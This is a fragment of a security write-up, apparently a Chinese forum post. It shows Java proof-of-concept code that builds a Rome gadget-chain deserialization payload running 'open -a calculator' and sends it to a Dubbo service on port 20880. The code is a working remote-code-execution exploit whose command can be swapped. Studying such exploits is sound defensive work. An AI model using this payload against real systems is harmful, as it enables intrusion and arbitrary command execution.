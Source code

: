 ```bash
        Object exp = getThrowablePayload("open -a calculator"); // Rome toString 利用链
        out.writeByte(RESPONSE_WITH_EXCEPTION);
        out.writeObject(exp);

        out.flushBuffer();

        Bytes.int2bytes(nativeJavaBoos.size(), header, 12);
        boos.write(header);
        boos.write(nativeJavaBoos.toByteArray());

        byte[] responseData = boos.toByteArray();

        Socket socket = new Socket("127.0.0.1", 20880);
        OutputStream outputStream = socket.getOutputStream();
        outputStream.write(responseData);
        outputStream.flush();
        outputStream.close();
    }

    protected static Object getThrowablePayload(String command) throws Exception {
        Object o = Gadgets.createTemplatesImpl(command);
        ObjectBean delegate = new ObjectBean(Templates.class, o);

        return delegate;
    }
```

[![](assets/1703064279-1411b2a41ea6711c1506f36b5888e332.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231219144349-f72db62a-9e39-1.png)
